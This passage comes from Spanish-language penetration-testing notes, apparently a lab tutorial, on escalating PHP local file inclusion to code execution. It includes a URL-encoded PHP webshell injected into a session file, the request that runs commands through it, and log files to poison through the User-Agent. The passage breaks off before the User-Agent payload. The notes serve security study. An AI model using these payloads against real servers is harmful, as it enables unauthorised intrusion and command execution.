 ```url
.../index.php?language=session_poisoning
```

Ahora, incluyamos el archivo de sesión una vez más para ver el contenido:

```bash
/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

![[Pasted image 20230125224323.png]]

vamos a definir una webshell URL encodeada como parametro:

```bash
#<?php system(GET['cmd']); ?>
.../index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Una vez hecho, podemos incluir el archivo PHP de la siguiente forma a través del LFI para tener un RCE:

```bash
?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

![[Pasted image 20230125224508.png]]

>[!note]
>Para ejecutar otro comando, el archivo de sesión debe envenenarse con el shell web nuevamente, ya que se sobrescribe después de nuestra última inclusión. Idealmente, usaríamos el shell web envenenado para escribir un shell web permanente en el directorio web, o enviar un shell inverso para facilitar la interacción.

#### access.log & auth.log

Todos los ataques que discutiremos en esta sección se basan en el mismo concepto: escribir código PHP en un campo que controlamos que se registra en un archivo de registro y luego incluir ese archivo de registro para ejecutar el código PHP. Para que este ataque funcione, la aplicación web PHP debe tener privilegios de lectura sobre los archivos registrados, que varían de un servidor a otro.

Consiste en verificar si las siguientes rutas son visibles desde el **LFI**:

-  **/var/log/auth.log** y **/var/log/apache2/access.log** para apache
- **/var/log/nginx/access.log** para nginx

>[!note]
>Debe averiguar que servidor web es y buscar en google cual es el path de su archivo de logs.

En el caso  y verlo desde el navegardor se puede ver el contenido del User-Agent:

Ejemplo:

```bash
# User-Agent

Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
```

El contenido del user agent puede ser modificado ya sea con curl o con burpsuite, entonces como lo visualizamos desde el navegador que pasa si colocamos un codigo malicioso PHP en User-Agent? Pasa que este lo interpreta, podemos aprovecharnos de esto asi:
